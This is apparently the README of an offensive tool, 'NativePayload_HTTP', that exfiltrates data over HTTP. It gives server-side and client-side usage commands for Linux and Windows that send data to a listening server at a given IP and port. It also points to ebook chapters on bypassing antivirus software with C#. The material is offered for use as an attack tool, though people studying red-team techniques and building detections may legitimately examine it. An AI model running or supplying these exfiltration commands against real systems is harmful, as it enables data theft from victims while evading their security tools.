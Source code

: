 # NativePayload_HTTP
Data Exfiltration via HTTP Traffic (C# and Shell Script)

this code has two parts: 1.Server-Side and 2.Client-Side

Server-Side (linux only):
./NativePayload_HTTP.sh -exfilwebserver

Client-Side (linux):
./NativePayload_HTTP.sh -dumpcmd [ServerIPv4] [Port] [Internal-delay]
Example: ./NativePayload_HTTP.sh -dumpcmd  192.168.56.1 80 0.4

Client-Side (windows):
NativePayload_HTTP.exe -dumpcmd [ServerIPv4] [Port] 
Example: NativePayload_HTTP.exe -dumpcmd  192.168.56.1 80 

# Note: for more information and help (step by step) , Please read these PDF files:

NativePayload_HTTP (Part1): https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH12/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2012-Part1.pdf

NativePayload_HTTP (Part2): https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH12/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2012-Part2.pdf
